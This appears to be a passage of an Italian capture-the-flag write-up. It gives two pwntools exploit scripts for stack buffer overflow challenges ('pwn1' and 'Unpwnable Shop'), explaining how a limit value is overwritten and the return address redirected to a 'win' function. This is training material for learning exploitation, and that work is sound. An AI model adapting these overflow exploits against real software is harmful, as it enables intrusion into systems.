 ```py
#!/usr/bin/env python3
from pwn import *

# Change this to remote if you want to run it on remote server
if args.REMOTE:
    r = remote('localhost', 1337) # change host and port
else:
    r = process('./pwn1')

PAYLOAD = b'A' * 44 + p32(1337)
r.recvuntil(b'?\n')
r.sendline(PAYLOAD + b'\x00')

r.interactive()
```

### Unpwnable Shop
Questa challenge ci permette di **inserire il nostro nome** per accedere al negozio. Guardando attentamente, possiamo vedere che il **limite** del nostro input è posizionato subito dopo il nostro nome nello **stack** e anche il suo valore iniziale è 81! Giusto abbastanza per inserire il nostro nome e **sovrascrivere il limite** per un uso successivo.  
Dopo aver inserito il nostro nome, il programma ci chiede cosa vogliamo fare; se rispondiamo 69, accediamo a un dialogo unico che ci fa **reinserire il nostro nome**, ma questa volta il limite è quello che abbiamo inserito precedentemente.  
Quindi, se inviamo 88 byte (76 per il nome utente, 4 per il limite e 8 per il rbp), e l'**indirizzo della funzione 'win'**, sovrascriviamo correttamente l'indirizzo di ritorno e otteniamo la flag.

**Vulnerabilità**: [ret2win](https://book.hacktricks.xyz/binary-exploitation/stack-overflow/ret2win)

```py
#!/usr/bin/env python3
from pwn import remote, args, ELF, p64, p32

elf = ELF("./unpwnable")
if args.REMOTE:
    r = remote('localhost', 1338) #Change host and port
else:
    r = elf.process()

# Overwriting limit
r.recvuntil(b':')
r.sendline(b'a' * 76 + p32(96))

# Sending right choice
r.recvuntil(b'stuff')
r.sendline(b'69')

#Overwriting return address
r.recvuntil(b'it.')
r.sendline(b'a'*88 + p64(elf.sym['win']))
r.recvuntil(b'Bye!\n')

#Flag!
r.interactive()
```
